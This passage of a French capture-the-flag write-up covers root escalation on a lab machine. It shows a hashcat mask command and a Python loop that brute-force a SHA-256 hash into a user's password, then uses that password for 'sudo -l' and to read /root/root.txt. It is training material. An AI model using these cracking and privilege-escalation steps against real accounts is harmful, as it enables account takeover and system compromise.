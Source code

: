 Ce dernier nous indique que notre mot de passe ressemble à celui-ci, où `?d` est une décimale : 

``susan_nasus_?d?d?d?d?d?d?d?d?d?d``

Avec hashcat, on peut utiliser la commande : 

`hashcat -m1400 -a 3 ./hash susan_nasus_?d?d?d?d?d?d?d?d?d?d`

Si on a une machine virtuelle lente, ou pour le fun, on peut aussi le faire à la main en python: 

```python
import hashlib

first_name = "susan"
first_name_reversed = "nasus"

# compute sha256 and print it 
for integer in range(0, 1000000000):
    # add a progress bar
    if integer % 1000000 == 0:
        print(f"{integer / 10000000}%")
    string = f"{first_name}_{first_name_reversed}_{integer}"
    hash = hashlib.sha256(string.encode()).hexdigest()
    if hash == "abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f":
        print(f"Found: {string}")
        break
```

on trouve ce password : 

``susan_nasus_413759210``

Et on peut à présent utiliser le mot de passe de Susan.

```bash
susan@perfection:~/ruby_app$ sudo -l 
sudo -l 
[sudo] password for susan: susan_nasus_413759210

Matching Defaults entries for susan on perfection:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User susan may run the following commands on perfection:
    (ALL : ALL) ALL
```

Susan peut donc utiliser toutes les commandes en sudo 

```bash
susan@perfection:~/ruby_app$ sudo cat /root/root.txt
sudo cat /root/root.txt
971d32c62f26bbf24c4301183b27fa1b
```
